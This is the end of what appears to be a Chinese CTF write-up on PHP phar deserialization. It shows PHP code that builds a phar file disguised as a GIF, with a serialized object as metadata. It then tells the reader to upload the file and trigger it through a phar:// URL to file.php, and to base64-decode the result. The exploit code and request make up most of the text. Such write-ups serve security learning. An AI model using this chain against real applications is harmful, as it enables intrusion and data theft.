 ```
$a=new C1e4r();
$a->str=$b;
echo serialize($a);
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'."<?php __HALT_COMPILER(); ?>"); 
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```



最后将phar.phar改为gif等后缀，上传，通过file访问phar即可，注意要用上传后的文件名





```
/file.php?file=phar://upload/154c25aad5ed08851eac82ebff2cb800.jpg
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2770717/1625220189367-aae2f795-8db7-487f-ad1d-90cdcc394bf6.png)

base64解码即可



https://www.cnblogs.com/zzjdbk/p/13030571.html

https://www.cnblogs.com/kuaile1314/p/13493277.html